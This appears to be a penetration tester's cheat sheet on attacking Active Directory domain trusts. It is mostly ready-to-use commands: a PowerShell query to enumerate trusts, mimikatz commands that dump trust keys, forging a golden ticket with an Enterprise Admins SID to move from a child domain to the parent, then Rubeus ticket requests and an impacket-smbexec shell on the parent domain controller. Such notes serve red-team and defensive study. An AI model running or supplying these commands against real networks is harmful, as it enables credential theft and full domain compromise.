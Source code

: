 # Exploit Child Domain Trust

From : https://github.com/WiredPulse/PowerShell/blob/master/Active_Directory/Get-DomainTrusts.ps1

```powershell
.NOTES:
    UNDERSTANDING OUTPUT:
    TrustedAttributes = Direction of Trust
        1 = Non-Transitive
        2 = Transitive

    TrustedDirection = Direction of Trust
        1 = Incoming only
        2 = Outgoing only
        3 = Two-way
    

Get-WmiObject -Class Microsoft_DomainTrustStatus -Namespace ROOT\MicrosoftActiveDirectory | Select-Object PSComputername, TrustedDomain, TrustAttributes, TrustDirection, TrustType
```

## Mimikatz

```
mimikatz # privilege::debug
mimikatz # lsadump::trust /patch 
```

## Exploit with child domain -> parent domain

If trust by twoways, like `[  In ] DEV.ADMIN.OFFSHORE.COM -> ADMIN.OFFSHORE.COM` show on mimikatz, we can exploit it:

`519` is the `Enterprise Administrarors` Group.

```
mimikatz # kerberos::golden /domain:<current domain (sub.manesec.com)> /sid:<current SID> /sids:<target domain SID>-519 /rc4:<rc4_hmac_nt> /user:administrator /service:krbtgt /target:<target domain (manesec.com)>  /ticket:save.kirbi

.\Rubeus.exe asktgs /ticket:save.kirbi /service:CIFS/DC.MANESEC.COM /dc:MANESEC.COM /ptt /outfile:admin.kirbi

impacket-smbexec administrator@DC.MANESEC.COM -dc-ip 172.16.3.5 -k -no-pass -debug
```

## Reference

+ https://harmj0y.medium.com/a-guide-to-attacking-domain-trusts-ef5f8992bb9d
+ https://www.c0bra.xyz/2021/02/17/%E5%9F%9F%E6%B8%97%E9%80%8F-SID-History%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81%E5%8F%8A%E5%9F%9F%E4%BF%A1%E4%BB%BB%E6%94%BB%E5%87%BB/
